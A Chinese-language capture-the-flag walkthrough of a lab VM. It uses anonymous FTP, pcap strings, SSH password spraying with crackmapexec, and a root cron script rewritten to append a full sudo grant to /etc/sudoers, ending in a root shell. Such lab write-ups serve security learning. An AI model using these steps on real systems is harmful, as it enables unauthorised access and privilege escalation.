

## 端口扫描

```bash

┌──(kali㉿kali)-[~]
└─$ sudo nmap -sT --min-rate 9999  -p- 192.168.99.43 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-17 21:39 CST
Nmap scan report for 192.168.99.43 (192.168.99.43)
Host is up (0.0011s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:CC:D6:B4 (VMware)

┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O  -p 21,22,80 192.168.99.43
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-17 21:40 CST
Nmap scan report for 192.168.99.43 (192.168.99.43)
Host is up (0.00046s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 09  2014 lol.pcap [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.99.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 600
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:18:d9:ef:75:d3:1c:29:be:14:b5:2b:18:54:a9:c0 (DSA)
|   2048 ee:8c:64:87:44:39:53:8c:24:fe:9d:39:a9:ad:ea:db (RSA)
|   256 0e:66:e6:50:cf:56:3b:9c:67:8b:5f:56:ca:ae:6b:f4 (ECDSA)
|_  256 b2:8b:e2:46:5c:ef:fd:dc:72:f7:10:7e:04:5f:25:85 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/secret
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:CC:D6:B4 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.09 seconds


```

## ftp

很明显ftp允许anonymous登录，直接登录上去看一下

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo ftp 192.168.99.43
Connected to 192.168.99.43.
220 (vsFTPd 3.0.2)
Name (192.168.99.43:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> binary
200 Switching to Binary mode.
ftp> ls -la
229 Entering Extended Passive Mode (|||6345|).
150 Here comes the directory listing.
drwxr-xr-x    2 0        112          4096 Aug 09  2014 .
drwxr-xr-x    2 0        112          4096 Aug 09  2014 ..
-rwxrwxrwx    1 1000     0            8068 Aug 09  2014 lol.pcap
226 Directory send OK.
ftp> mget lol.pcap
mget lol.pcap [anpqy?]? 
229 Entering Extended Passive Mode (|||12581|).
150 Opening BINARY mode data connection for lol.pcap (8068 bytes).
100% |**********************************************|  8068       11.11 MiB/s    00:00 ETA
226 Transfer complete.
8068 bytes received in 00:00 (3.31 MiB/s)
```

## 流量分析
看到一个流量包，strings或者wireshark看一下

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ strings lol.pcap                             
Linux 3.12-kali1-486
Dumpcap 1.10.2 (SVN Rev 51934 from /trunk-1.10)
eth0
host 10.0.0.6
Linux 3.12-kali1-486
220 (vsFTPd 3.0.2)
"USER anonymous
331 Please specify the password.
PASS password
230 Login successful.
SYST
215 UNIX Type: L8
PORT 10,0,0,12,173,198
200 PORT command successful. Consider using PASV.
LIST
150 Here comes the directory listing.
-rw-r--r--    1 0        0             147 Aug 10 00:38 secret_stuff.txt
226 Directory send OK.
TYPE I
W200 Switching to Binary mode.
PORT 10,0,0,12,202,172
g>      @
W200 PORT command successful. Consider using PASV.
RETR secret_stuff.txt
W150 Opening BINARY mode data connection for secret_stuff.txt (147 bytes).
WWell, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P
Sucks, you were so close... gotta TRY HARDER!
W226 Transfer complete.
TYPE A
O200 Switching to ASCII mode.
{PORT 10,0,0,12,172,74
O200 PORT command successful. Consider using PASV.
{LIST
O150 Here comes the directory listing.
O-rw-r--r--    1 0        0             147 Aug 10 00:38 secret_stuff.txt
O226 Directory send OK.
{QUIT
221 Goodbye.
Counters provided by dumpcap
```


都可以发现，找到了`sup3rs3cr3tdirlol`这一信息
根据它的意思，supersecretdirlol，直接访问这个目录


找到了一个文件，不知道是什么，kaliwget下载下来

## 文件分析

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ strings roflmao                                         
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
printf
__libc_start_main
__gmon_start__
GLIBC_2.0
PTRh
[^_]
Find address 0x0856BF to proceed
;*2$"
GCC: (Ubuntu 4.8.2-19ubuntu1) 4.8.2
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rel.dyn
.rel.plt
.init
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.jcr
.dynamic
.got
.got.plt
.data
.bss
.comment
crtstuff.c
__JCR_LIST__
deregister_tm_clones
register_tm_clones
__do_global_dtors_aux
completed.6590
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
roflmao.c
__FRAME_END__
__JCR_END__
__init_array_end
_DYNAMIC
__init_array_start
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
__x86.get_pc_thunk.bx
data_start
printf@@GLIBC_2.0
_edata
_fini
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_start_main@@GLIBC_2.0
__libc_csu_init
_end
_start
_fp_hw
__bss_start
main
_Jv_RegisterClasses
__TMC_END__
_ITM_registerTMCloneTable
_init
```

分析这个文件的源代码，其中有一串字符很特殊
Find address 0x0856BF to proceed
找到地址0x0856BF继续
这时候要么是溢出，因为是一串十六进制
还有一种可能是简单的目录

看来是简单的目录信息


## crackmapexec密码喷射

将0x0856BF目录的文件都下载下来

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ cat Pass.txt  
Good_job_:)
                                                                                           
┌──(kali㉿kali)-[~/workspace]
└─$ cat which_one_lol.txt 
maleus
ps-aux
felux
Eagle11
genphlux < -- Definitely not this one
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```

最终找到一个用户及密码

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo crackmapexec ssh 192.168.99.43 -u which_one_lol.txt -p Pass2.txt --continue-on-success
SSH         192.168.99.43   22     192.168.99.43    [*] SSH-2.0-OpenSSH_6.6.1p1 Ubuntu-2ubuntu2
SSH         192.168.99.43   22     192.168.99.43    [+] overflow:Pass.txt 
SSH         192.168.99.43   22     192.168.99.43    [-] overflow: Authentication failed.
SSH         192.168.99.43   22     192.168.99.43    [-] vis1t0r:Pass.txt Authentication failed.
SSH         192.168.99.43   22     192.168.99.43    [-] vis1t0r: Authentication failed.
SSH         192.168.99.43   22     192.168.99.43    [-] wytshadow:Pass.txt Authentication failed.
SSH         192.168.99.43   22     192.168.99.43    [-] wytshadow: Authentication failed.
```

## ssh登录

overflow:Pass.txt 
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ ssh overflow@192.168.99.43     
The authenticity of host '192.168.99.43 (192.168.99.43)' can't be established.
ED25519 key fingerprint is SHA256:jhpbgUldAKI9YAJOKhJZe9ypYt7GlEKUKU2WQ+zZBSs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.99.43' (ED25519) to the list of known hosts.
overflow@192.168.99.43's password: 
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/
New release '16.04.7 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Aug 13 01:14:09 2014 from 10.0.0.12
Could not chdir to home directory /home/overflow: No such file or directory
$ whoami
overflow
$ sudo -l

sudo: unable to resolve host troll
[sudo] password for overflow: 
Sorry, try again.
[sudo] password for overflow: 
Sorry, user overflow may not run sudo on troll.
```

## 计划任务提权

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ ssh overflow@192.168.99.43     
The authenticity of host '192.168.99.43 (192.168.99.43)' can't be established.
ED25519 key fingerprint is SHA256:jhpbgUldAKI9YAJOKhJZe9ypYt7GlEKUKU2WQ+zZBSs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.99.43' (ED25519) to the list of known hosts.
overflow@192.168.99.43's password: 
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/
New release '16.04.7 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Aug 13 01:14:09 2014 from 10.0.0.12
Could not chdir to home directory /home/overflow: No such file or directory
$ whoami
overflow
$ sudo -l

sudo: unable to resolve host troll
[sudo] password for overflow: 
Sorry, try again.
[sudo] password for overflow: 
Sorry, user overflow may not run sudo on troll.
$ ls
bin   dev  home        lib         media  opt   root  sbin  sys  usr  vmlinuz
boot  etc  initrd.img  lost+found  mnt    proc  run   srv   tmp  var
$ ls /home
troll
$ python -c "import pty;pty.spawn('/bin/bash')";
overflow@troll:/$ ls /home/troll
overflow@troll:/$ uname -a
Linux troll 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:12 UTC 2014 i686 athlon i686 GNU/Linux
overflow@troll:/$ find / -perm  -04000 -type f 2>/dev/null
/usr/sbin/uuidd
/usr/sbin/pppd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/bin/mtr
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/su
/bin/ping
/bin/fusermount
/bin/ping6
/bin/mount
/bin/umount
                                                                               
Broadcast Message from root@trol                                               
        (somewhere) at 7:25 ...                                                
                                                                               
TIMES UP LOL!                                                                  
                                                                               
Connection to 192.168.99.43 closed by remote host.
Connection to 192.168.99.43 closed.

```
这里看到我的ssh来凝结被断开了，并且提示 TIMES UP LOL!  ，那么应该就是计划任务了
接下来找计划任务
```bash
                                                                                      
┌──(kali㉿kali)-[~/workspace]
└─$ ssh overflow@192.168.99.43 
$ python -c "import pty;pty.spawn('/bin/bash')";
overflow@troll:/$ cat /etc/crontab
cat: /etc/crontab: Permission denied
overflow@troll:/$ find / -name cronlog 2>/dev/null
/var/log/cronlog
overflow@troll:/$ cat /var/log/cronlog
*/2 * * * * cleaner.py
overflow@troll:/$ find / -name cleaner.py 2>/dev/null
/lib/log/cleaner.py
overflow@troll:/$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /tmp/* ')
except:
        sys.exit()
overflow@troll:/$ vim /lib/log/cleaner.py
overflow@troll:/$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('echo "overflow    ALL=(ALL:ALL) ALL">>/etc/sudoers  ')
except:
        sys.exit()
overflow@troll:/$ sudo -l
sudo: unable to resolve host troll
[sudo] password for overflow: 
Sorry, user overflow may not run sudo on troll.
overflow@troll:/$ sudo -l
sudo: unable to resolve host troll
                                                                               
Broadcast Message from root@trol                                               
        (somewhere) at 7:30 ...                                                
                                                                               
TIMES UP LOL!                                                                  
                                                                               
Connection to 192.168.99.43 closed by remote host.
Connection to 192.168.99.43 closed.
```
此时已经找到计划任务，并且通过计划任务，将overflow用户添加了sudo的所有权限
然后，然后就又断了

```bash
                                                                                      
┌──(kali㉿kali)-[~/workspace]
└─$ ssh overflow@192.168.99.43 
$ sudo -l
sudo: unable to resolve host troll
[sudo] password for overflow: 
Matching Defaults entries for overflow on troll:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User overflow may run the following commands on troll:
    (ALL : ALL) ALL
    (ALL : ALL) ALL
    (ALL : ALL) ALL
    (ALL : ALL) ALL
    (ALL : ALL) ALL
    (ALL : ALL) ALL
    (ALL : ALL) ALL
    (ALL : ALL) ALL
    (ALL : ALL) ALL
    (ALL : ALL) ALL
    (ALL : ALL) ALL
    (ALL : ALL) ALL
    (ALL : ALL) ALL
    (ALL : ALL) ALL
    (ALL : ALL) ALL
    (ALL : ALL) ALL
    (ALL : ALL) ALL
$ sudo '/bin/bash'
sudo: unable to resolve host troll
root@troll:/# ls /root
proof.txt
root@troll:/# cat /root/proof.txt 
Good job, you did it! 


702a8c18d29c6f3ca0d99ef5712bfbdc
root@troll:/# whoami
root
                                                                               
Broadcast Message from root@trol                                               
        (somewhere) at 8:05 ...                                                
                                                                               
TIMES UP LOL!                                                                  
                                                                               
Connection to 192.168.99.43 closed by remote host.
Connection to 192.168.99.43 closed.
```
再次登录检查权限发现是all没问题，那么直接sudo一个新的/bin/bash就可以了